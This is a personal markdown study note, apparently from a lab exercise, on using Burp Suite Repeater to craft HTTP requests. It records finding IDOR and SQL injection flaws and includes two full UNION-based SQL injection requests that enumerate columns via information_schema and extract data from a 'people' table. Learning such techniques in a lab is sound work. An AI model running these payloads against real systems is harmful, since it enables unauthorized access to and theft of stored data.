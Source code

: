 # Burp Suite: *Repeater*

### [GO BACK](./intro.md)

> Burp Suite Repeater allows us to craft and/or relay intercepted requests to a target at will.

- CAPTURE reqeusts via proxy
- EDIT requests 
- SEND requests to host
- CREATING requests from scratch
- Observing request/response objects in action

> *Postman on steroids with additional utilities*

Action:

- Basic interface navigation
- Basics of crafting requests:: TONNES of XP via my job
- `/products/:id` page
  - Broke the page by passing -ve values as `:id`
  - Found **IDOR** vulnerability within
  - Possibly even **SQLi** vulnerability
- `/about/:id` page
  - Found **IDOR** vulnerability within
  - Exploited **SQLi** vulnerability

### Notes on *SQLi(SQL injection)* vulnerability

- Added `'` initially ahead of `:id` for getting to know about ***SQLi***
  - It introduces `string` initiation in query
  - Can break any SQL query if placed incorrectly, in our case it's a lone character
- The backend was only displaying results from first row and one specific column(`id`)
  - Hence kept all of the fields `null` except for it
- Hence passed illegal non-existent IDs as parameter, for making first row blank(for actual payloads)
- Unionized results with actual query and displayed results of exploited query on first row's, first column element and utilized it
- Used four `null`'s for matching existing query pattern with `UNION`ized query
- `information_schema` table consists of all schema related information in SQL
- Additional note: *Two `\n` characters are reqd for HTTP request termination*

```HTTP
# recon for columns within query
GET /about/-1 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns where table_name="people" HTTP/1.1
Host: 10.10.175.176
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```
```HTTP
# extracting payload
GET /about/-1 UNION ALL SELECT notes, null, null, null, null FROM people where id=1 HTTP/1.1
Host: 10.10.175.176
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

> Personal note: Could have executed this via Postman as well. Infact it's more suited for the task, if not for proxied captures within it...

### Further studies

- SQLi attacks and common patterns
- Exploiting vulnerabilities within other noSQL databases
  - Using same concepts of SQLi(via and not via application interfaces)
  - Using DB specific concepts

### Tools

- Burp Suite Repeater
- Postman:: to learn in-depth
- cURL